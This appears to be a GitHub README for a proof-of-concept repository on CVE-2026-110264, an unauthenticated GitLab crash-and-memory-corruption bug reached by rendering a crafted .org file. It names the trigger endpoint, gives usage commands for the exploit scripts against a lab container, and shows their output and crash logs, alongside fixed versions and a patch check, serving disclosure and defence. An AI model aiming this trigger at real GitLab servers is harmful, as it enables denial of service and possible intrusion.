

<p align="center">
  
</p>

# CVE-2026-110264: GitLab Pre-Auth RCE via Onigmo Integer Overflow

**CVSS 10.0** | Unauthenticated | Remote Code Execution | GitLab CE/EE

One anonymous GET request to a public project's `.org` file viewer overflows a signed-short counter in Ruby's regex engine, writes out of bounds into the Puma worker's heap, and crashes it with SIGSEGV or SIGILL. No token, no session, no cookie needed.

**Author:** al4n4n (Dadb0d)

**Write-up:** [blog.al4n4n.com/CVE-2026-110264-GitLab-Onigmo-Regex-Integer-Overflow/](https://blog.al4n4n.com/CVE-2026-110264-GitLab-Onigmo-Regex-Integer-Overflow/)

**Fixed in:** GitLab 19.5.1, 19.4.3, 19.3.6, 19.2.9, 19.1.9, 19.0.10, 18.11.13

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

## The bug

Onigmo (Ruby's regex engine) numbers each range repeat (`x{0,8}`) with a `MemNumType` id -- a `signed short`. The 32,768th repeat wraps to `-32768`. At match time that negative id indexes into the repeat stack array, writing out of bounds.

Ruby's fix ([493d26d](https://github.com/ruby/ruby/commit/493d26dcdea8b2f0ac5d28e057b401bc809e7fae)) rejects the pattern at compile time:

```c
reg->num_repeat++;
if ((MemNumType)reg->num_repeat <= 0) return ONIGERR_TOO_MANY_RANGE_REPEAT;
```

GitLab backports this into their bundled Ruby via [omnibus-gitlab!9922](https://gitlab.com/gitlab-org/omnibus-gitlab/-/merge_requests/9922) and [CNG!3168](https://gitlab.com/gitlab-org/build/CNG/-/merge_requests/3168).

## Pre-auth attack surface

org-ruby's [`headline.rb:100`](https://github.com/wallyqs/org-ruby/blob/v0.9.12/lib/org-ruby/headline.rb#L100) feeds raw headline text into `Regexp.new`. GitLab renders `.org` files on the anonymous blob viewer, so any public project with a crafted `.org` file triggers the overflow on:

```
GET /<project>/-/blob/main/file.org?format=json&viewer=rich
```

No token, no session, no cookie.

## Files

| File | Purpose |
|---|---|
| `setup.py` | Boot a vulnerable GitLab CE container, create a token, push the crafted `.org` file. Run once. |
| `poc.py` | Send one anonymous GET to trigger the overflow. Zero credentials, pure HTTP. |
| `verify.py` | Send repeated requests, read crash signals from `puma_stderr.log`. |
| `check-installed-gitlab.sh` | Check if an Omnibus host carries the fix. Run as root. |

## Usage

```sh
# 1. setup (boots GitLab, pushes the .org file)
python3 setup.py

# 2. trigger the overflow (anonymous, no credentials)
python3 poc.py --base http://127.0.0.1:8929 \
               --project root/cve-2026-110264-poc

# 3. verify crashes (optional)
python3 verify.py --base http://127.0.0.1:8929 \
                  --project root/cve-2026-110264-poc \
                  --container gitlab-vuln
```

`setup.py` prints the exact `poc.py` command when done. Use `--skip-boot` if the container is already running.

## What happens

poc.py output:

```
[*] GET http://127.0.0.1:8929/root/cve-2026-110264-poc/-/blob/main/probe.org?format=json&viewer=rich
    HTTP 200  elapsed 0.314s
    h1: 'headline subject text'
    h1: 'control headline'
```

HTTP 200, no crash log. The worker compiled 32,769 OP_REPEAT nodes, overflowed the counter, and wrote out of bounds into its own heap.

verify.py shows the crashes that follow repeated requests:

```
  requests sent:     50
  HTTP 200:          46
  HTTP 502:          4
  worker restarts:   3

  --- crash signals (from puma_stderr.log) ---
  SIGSEGV:           3
  SIGILL:            1

  crash details:
    SIGSEGV at 0x0000fffef41c4280  (headline.rb:100)
    SIGSEGV at 0x0000fffef1fc2240  (headline.rb:100)
    SIGILL at 0x0000ffff914197d0   (headline.rb:100)
    SIGSEGV at 0x0000fffefa9c3dc0  (headline.rb:100)
```

Crash addresses differ each time because heap layout changes after worker respawn. SIGILL means the OOB write hit executable memory or a function pointer.

## Crash evidence

Raw `puma_stderr.log` from the GitLab container after running poc.py:

```
headline.rb:100: [BUG] Segmentation fault at 0x0000fffef41c4280
ruby 3.3.12 (2026-07-16 revision 0581089df9) [aarch64-linux]

-- Control frame information -----------------------------------------------
c:0225 p:---- s:1582 e:001581 CFUNC  :sub!
c:0224 p:0079 s:1576 e:001575 METHOD .../org-ruby-0.9.12/lib/org-ruby/headline.rb:100
c:0223 p:0109 s:1570 e:001569 METHOD .../org-ruby-0.9.12/lib/org-ruby/headline.rb:63
c:0222 p:---- s:1563 e:001562 CFUNC  :new
c:0221 p:0228 s:1556 e:001555 BLOCK  .../org-ruby-0.9.12/lib/org-ruby/parser.rb:176

-- C level backtrace information -------------------------------------------
libruby.so.3.3(rb_bug_for_fatal_signal+0xbc)  error.c:1065
libruby.so.3.3(sigsegv+0x5c)                  signal.c:928
linux-vdso.so.1(__kernel_rt_sigreturn+0x0)
libruby.so.3.3(match_at+0xe80)                regexec.c:3836   <-- OOB write
libruby.so.3.3(onig_search_gpos+0x120)        regexec.c:5267
libruby.so.3.3(rb_reg_onig_match+0xd0)        re.c:1664
libruby.so.3.3(rb_str_sub_bang+0xe0)           string.c:5782
```

Check it yourself:

```sh
docker exec <container> grep '\[BUG\]' /var/log/gitlab/puma/puma_stderr.log
```

## Image testing

Tested on Docker Hub images, October 22, 2026. All report the same `ruby -v`, so version strings don't tell you anything. The only reliable check is compiling the pattern or grepping libruby for the error string.

| Image | Arch | libruby sha256 | Verdict |
|---|---|---|---|
| `gitlab-ce:19.4.2-ce.0` | arm64 | `4441d273...2e46c1` | **vulnerable** |
| `gitlab-ce:19.4.3-ce.0` | arm64 | `e91c2005...b7a6f6` | fixed |
| `gitlab-ce:19.5.0-ce.0` | arm64 | `e91c2005...b7a6f6` | fixed |
| `gitlab-ce:19.5.1-ce.0` | arm64 | `e91c2005...b7a6f6` | fixed |
| `gitlab-ce:19.4.2-ce.0` | amd64 | `1e670f2f...aaf4ce` | **vulnerable** |
| `gitlab-ce:19.5.0-ce.0` | amd64 | `bc623ba3...05b65` | fixed |

## References

- [GitLab patch release 19.5.1](https://docs.gitlab.com/releases/patches/patch-release-gitlab-19-5-1-released/)
- [CVE-2026-110264](https://cveawg.mitre.org/api/cve/CVE-2026-110264)
- [Ruby fix 493d26d](https://github.com/ruby/ruby/commit/493d26dcdea8b2f0ac5d28e057b401bc809e7fae) / [PR #16801](https://github.com/ruby/ruby/pull/16801)
- [omnibus-gitlab!9922](https://gitlab.com/gitlab-org/omnibus-gitlab/-/merge_requests/9922), [CNG!3168](https://gitlab.com/gitlab-org/build/CNG/-/merge_requests/3168)
- [org-ruby headline.rb:100](https://github.com/wallyqs/org-ruby/blob/v0.9.12/lib/org-ruby/headline.rb#L100)

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). GitLab Onigmo regex integer overflow via org-ruby (CVE-2026-110264). *achilles-heel*, added 2026-10-22. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-110264>. [Research article](https://blog.al4n4n.com/CVE-2026-110264-GitLab-Onigmo-Regex-Integer-Overflow/).
<!-- citation:end -->
